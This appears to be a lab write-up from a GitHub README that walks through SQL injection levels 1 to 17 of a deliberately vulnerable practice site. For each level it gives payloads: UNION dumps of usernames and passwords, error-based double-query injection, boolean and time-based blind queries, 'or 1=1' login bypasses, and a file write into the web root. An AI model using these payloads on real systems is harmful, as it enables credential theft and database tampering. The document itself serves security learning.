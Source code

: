 # SQLI-WRITEUPS                      
                                       
**Level-1**                                     
![Screenshot_2024-04-01_07-22-36](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/e8e398cf-c59f-4afa-b0dc-b06c0115ac80)                                 
- In this level the error caused in sql query is due to single quote. if we observe the above error we can find that by commenting after the quote we can fix the query.Then after we can send our queries to fetch data from the database.                            
![Screenshot_2024-04-01_18-11-39](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/bbf9bd63-589b-47b4-a09e-b6f9e82d7af0)                                      
**Error: '**              
**Fixing: '--+**                               
**Query:** *UNION SELECT 1,USERNAME,PASSWORD FROM USERS WHERE ID=3 LIMIT 1,1*                              
                               
**Level-2**                                                                           
![Screenshot_2024-04-01_18-21-55](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/d640e76e-054f-4b61-95ee-33fa671211a6)                                
- In this level actually there is no error by commenting out everything after the id it works fine and we cans end our queries to get data.             
**Error: No Error**                        
**Fixing: ?id=1--+**                            
**Query:** *UNION SELECT 1,GROUP_CONCAT(USERNAME),GROUP_CONCAT(PASSWORD) FROM USERS --+*                           
                                             
**Level-3**                                               
![Screenshot_2024-04-01_18-27-00](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/611e6831-0e37-4ce8-9a2e-357f2e991ee4)                    
- In this level the error is due to single quote . we can fix the error by placing a single quote and parenthes and then by commenting out the remaing query will fix the error and help us to make our own queries                   
![Screenshot_2024-04-01_18-27-44](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/5bee9d0f-8034-4d8a-8f7b-c2f30bf37fac)                            
**Error:  '    id'   ')**                            
**Fixing:  ?id=1')--+**                      
                                    
**Level-4**                                              
![Screenshot_2024-04-01_19-24-34](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/c9099fa5-993b-49a9-b45a-309da68b53bc)                                      
- In this level the error is same as the previous level but doublequote is sued instead of single quote                  
![Screenshot_2024-04-01_19-25-32](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/e3168cfb-ec4b-4325-8a6f-b3994b929071)                           
**Error:  "     id"    ")**            
**Fixing: ?id=1")--+**                  
                                        
**Level-5**                                                  
![Screenshot_2024-04-01_19-46-01](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/21045cbe-b293-417b-b07c-2665f819942c)                                 
- In this level the webpage doesnot show any query results in the webpage so we cannot display query data in webpage . but it displays an error. using that we can send double query injection to give us the data in the error statement.                      
![Screenshot_2024-04-01_19-47-51](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/cda1b4f6-67c6-45f0-afb4-fe566d296049)                                 
**Error: ' id' '**                      
**Fixing: ?id=1'--+**              
**Query:** *select count(*),(concat("~",(select database()),"~",floor(rand()*2)))a from information_schema.tables group by a*                         
                                       
**Level-6**                          
![Screenshot_2024-04-01_20-42-44](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/de5946ae-9b7b-45b5-9629-81427428fb28)                                 
- In this level the error is same as level-5 but instead of single quotes double quotes is used in this level. After breaking and fixing the query the remaining part is same as Level-5        
![Screenshot_2024-04-01_20-42-28](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/c43f3dc5-f442-4d16-8db7-9dcc551a67a2)                        
**Error: '"   id"   "'**                        
**Fixing: ?id=1"--+**                            
**Query:** *select count(*),(concat("~",(select database()),"~",floor(rand()*2)))a from information_schema.tables group by a*                    
                                              
**Level-7**                              
![Screenshot_2024-04-01_21-08-16](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/4defc0be-6bc4-40e2-a0a7-755d7a94624f)                          
- In this level if there is any error it doesnt display the exact error it will only display a error message . so we need to try for breaking and fixing the error using all error queries like singlequotes,doublequotes and parenthes. once it is breaked then we need to fix and write our query. After fixing the error we can write the dumpfile query to result the ouput in otherfille.This is also a semi blind injection.                                                       
![Screenshot_2024-04-01_21-10-00](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/41f5519a-8ef0-4c0c-8e5e-3af0a4f1947a)                          
**Error: (('   id '))   '))**                                         
**Fixing: ?id=1'))--+**                                           
**Query:** *union select 1,username,password from users into outfile "/var/www/html/Less-8/union.txt"*                              
                            
**Level-8**           
![Screenshot_2024-04-01_21-54-59](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/09a64795-b172-40d9-928c-75fba614f3d9)                              
- In this level the webpage doesnot show any message even if we occur any error in the query . but if the query is successful we will get some msg. using this we can send boolean based sql queries. if the condition is true we will see the msg in webpage else we wont see any msg. This type of attacks is called blind boolean based sqli injection                        
![Screenshot_2024-04-01_21-55-40](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/70dc94ec-9503-4193-af3d-d004349921da)                 
**Error: '    id'   '**            
**Fixing:  ?id=1'--+**
**Query:** *AND (ascii(substr((SELECT password from users where username='Dumb'),1,1))>90)**                                    
- If the above condition is true then it returns 1 and then 1 and 1 becomes true so we will login.                         
                                     
**Level-9**                                    
![Screenshot_2024-04-01_22-25-20](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/3b601c1e-b74f-49ba-9dd4-48f0820d68e4)                              
- In this level we cannot find any difference whether we enter correct id number or not always the message is same. We can try all error method and along with them we should use sleep, so that if one of the error is broken and fixed then used sleep(), then the webpage wont display the the conent for next n seconds that is defined in sleep().                         
![Screenshot_2024-04-01_22-26-39](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/908cd45d-43fb-4770-bb3e-51d2bd2909b3)                               
**Error: '    id'    '**                                                        
**Fixing:   ?id=1'--+**                                                       
**Query:** *and (if((SELECT SUBSTR(table_name,1,1) from information_schema.tables where table_schema="security" limit 0,1=e,sleep(10),null))*                               
                                 
**Level-10**                              
![Screenshot_2024-04-01_23-01-06](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/b92d685f-d9ff-4afa-a8ff-ced16d2c6194)                                   
- This query is same as level-9. The only difference is instead of single quotes double quotes is used.              
![Screenshot_2024-04-01_23-01-29](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/86e378ce-89f7-4264-a247-b8dec8ff0486)                           
**Error: " id "  "**                                
**Fixing: ?id=1" --+**                                    
**Query:** *and (if((SELECT SUBSTR(table_name,1,1) from information_schema.tables where table_schema="security" limit 0,1=e,sleep(10),null))*                              
                                             
**Level-11**                       
![Screenshot_2024-04-01_23-44-59](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/de5b1d38-42d7-4bd9-b75d-5b70b706c773)                                           
- In this level the username and password is sent in apost request. Once if we acheive breaking and fixing the query which helps us in retrieving data from database then we can pass any of the query using this. since it is displaying data on webpage we can use union attack, since it is displaying error in webpage we can user dobule query injections. we can use blind injection.                                               
![Screenshot_2024-04-01_23-45-52](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/7bfb5272-f289-4225-9c6d-ad146a67ab5b)                                                     
**Error: '   username'    '**              
**Fixing: username' or 1=1 #**                   
**Query:** *SELECT USERNAME,PASSWORD FROM USERS WHERE LIMIT 1,1*                   
                                  
**Level-12**                        
![Screenshot_2024-04-02_00-00-07](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/c74f67f4-3a38-4922-8beb-6189d51f642a)                      
- This level is same as the above level the only difference is while breaking the query we use a double quote and parenthes instead of single quote.                          
![Screenshot_2024-04-02_00-05-30](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/05d1f34d-ad8c-4223-aa24-df5c316cfe6c)                            
**Error: ("   username")    ")**              
**Fixing: username") or 1=1 #**                   
**Query:** *SELECT USERNAME,PASSWORD FROM USERS WHERE LIMIT 1,1*              
                                       
**Level-13**                
![Screenshot_2024-04-02_00-27-13](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/d6464ae1-ba3c-448e-8008-da2c35ec4f13)                   
- In this level after loging in it is not displaying the username and password . so here we need to make a double injection since it is displaying the entire error in the webpage.                       
![Screenshot_2024-04-02_00-36-02](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/1e94d644-c193-43ae-9299-8eb1b1d95193)                                   
**Error: ('    username')    ')**                
**Fixing: username') or 1=1 #**               
**Query:** *') union (select 1 from (select count(*),(concat("~",(select database()),"~",floor(rand()*2)))a from information_schema.tables group by a)b)#*                             
                                       
**Level-14**                
![Screenshot_2024-04-02_08-48-05](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/35cf5a35-e385-44f6-a0ba-d071a62f4858)                          
- In this level the query can be broken by using combination of a singlequote and a doublequote. Then we can fix the error by commenting out rrst of the thing.                       
![Screenshot_2024-04-02_08-49-31](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/360915bc-af1e-4a72-bbbd-1e90f062db33)                                          
**Error: '"     username'"     '"**                    
**Fixing: username'" or 1=1 #**                         
**Query** *union (select 1,1 from (select count(*),(concat("~",(select database()),"~",floor(rand()*2)))a from information_schema.tables group by a)b)#*                     
                                      
**Less-15**                 
![Screenshot_2024-04-02_18-24-38](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/3ab6d917-e53d-44a7-a08c-b61ec744b899)                       
- In this level the query is breaken by single quote, but it doesnt display any error. after fixing the query using boolean conditions if it works we can confirm that it is the error. To confirm i have used or 1=1 which is always true. so if it works with the broken query then it is fixed.                      
- Later we can use other queries to get information from the database.                                                         
![Screenshot_2024-04-02_18-24-01](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/4045798d-4088-45df-b252-e66a280481c3)                                        
![Screenshot_2024-04-02_18-23-05](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/61a4f19e-757d-423b-8c30-08bd14c7caad)                             
**Error:  '  username'    '**                   
**Fixing: username' or 1=1# => which will make us to login**                                    
**Query:** *' or (select database())='security' #*                        
                          
**Less-16**                              
![Screenshot_2024-04-02_18-33-17](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/af241227-2efe-42e8-b905-5342a8c9b0d5)                          
- In this level the query part is same as Less-15 but the only difference is the breaking anf fixing of error. Here error can be fixed by using a double quote and parenthes.
- We can also send time based queries for this level                        
![Screenshot_2024-04-02_18-34-14](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/6fd843a7-5dbe-4546-b5f7-aa05b27eae80)
**Error: ("     username")       ")**                                   
**Fixing: username") or 1=1#**
**Query:** *' or (select database())='security' #*                              
**Less-17**
![Screenshot_2024-04-02_19-53-14](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/568d1efa-b6e9-424d-8a37-359873065831)
- In this it is a password updation page. it doesnot interact with us it only displays a message if the password updation is sucessful. It also displays an error if we enter username and try password singlequotes.
- after breaking we can fix the query and we can use double injection to display our messages in that error message.     
- the backend query is like **UPDATE USERS SET PASSWORD='password' WHERE USERNAME='username'**  
- After breaking and fixing it will become **UPDATE USERS SET PASSWORD='password' or 1=1 # ' WHERE USERNAME='username'**                        
![Screenshot_2024-04-02_19-56-37](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/cf3530b9-7544-4307-8e88-5c0906728bd7)                                     
![Screenshot_2024-04-02_19-57-04](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/922aab84-d732-40ff-97e7-7cae953c511d)                                        
**Error: '    password'    '**                               
**Fixing: password' or 1=1**                        
**Query** *' AND (select 1 from (select count(*),(concat("~",(select database()),"~",floor(rand()*2)))a from information_schema.tables group by a)b)#*                         
**Less-18**
